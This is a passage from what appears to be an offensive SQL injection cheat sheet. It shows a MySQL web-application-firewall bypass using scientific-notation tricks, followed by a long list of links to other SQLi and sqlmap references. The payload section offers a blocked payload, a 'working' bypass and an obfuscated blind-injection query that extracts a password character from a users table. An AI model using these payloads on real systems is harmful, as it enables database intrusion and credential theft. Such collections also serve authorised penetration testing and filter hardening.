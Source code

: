 #### WAF bypass for MySQL using scientific notation

Blocked
```sql
' or ''='
```
Working
```sql
' or 1.e('')='
```
Obfuscated query
```sql
1.e(ascii 1.e(substring(1.e(select password from users limit 1 1.e,1 1.e) 1.e,1 1.e,1 1.e)1.e)1.e) = 70 or'1'='2
```

## References

* Detect SQLi
  * [Manual SQL Injection Discovery Tips](https://gerbenjavado.com/manual-sql-injection-discovery-tips/)
  * [NetSPI SQL Injection Wiki](https://sqlwiki.netspi.com/)
* MySQL:
  * [PentestMonkey's mySQL injection cheat sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
  * [Reiners mySQL injection Filter Evasion Cheatsheet](https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/)
  * [Alternative for Information_Schema.Tables in MySQL](https://osandamalith.com/2017/02/03/alternative-for-information_schema-tables-in-mysql/)
  * [The SQL Injection Knowledge base](https://websec.ca/kb/sql_injection)
* MSSQL:
  * [EvilSQL's Error/Union/Blind MSSQL Cheatsheet](http://evilsql.com/main/page2.php)
  * [PentestMonkey's MSSQL SQLi injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* ORACLE:
  * [PentestMonkey's Oracle SQLi Cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)
* POSTGRESQL:
  * [PentestMonkey's Postgres SQLi Cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)
* Others
  * [SQLi Cheatsheet - NetSparker](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
  * [Access SQLi Cheatsheet](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)
  * [PentestMonkey's Ingres SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/ingres-sql-injection-cheat-sheet)
  * [Pentestmonkey's DB2 SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/db2-sql-injection-cheat-sheet)
  * [Pentestmonkey's Informix SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/informix-sql-injection-cheat-sheet)
  * [SQLite3 Injection Cheat sheet](https://sites.google.com/site/0x7674/home/sqlite3injectioncheatsheet)
  * [Ruby on Rails (Active Record) SQL Injection Guide](http://rails-sqli.org/)
  * [ForkBombers SQLMap Tamper Scripts Update](http://www.forkbombers.com/2016/07/sqlmap-tamper-scripts-update.html)
  * [SQLi in INSERT worse than SELECT](https://labs.detectify.com/2017/02/14/sqli-in-insert-worse-than-select/)
  * [Manual SQL Injection Tips](https://gerbenjavado.com/manual-sql-injection-discovery-tips/)
* Second Order:
  * [Analyzing CVE-2018-6376 – Joomla!, Second Order SQL Injection](https://www.notsosecure.com/analyzing-cve-2018-6376/)
  * [Exploiting Second Order SQLi Flaws by using Burp & Custom Sqlmap Tamper](https://pentest.blog/exploiting-second-order-sqli-flaws-by-using-burp-custom-sqlmap-tamper/)
* Sqlmap:
  * [#SQLmap protip @zh4ck](https://twitter.com/zh4ck/status/972441560875970560)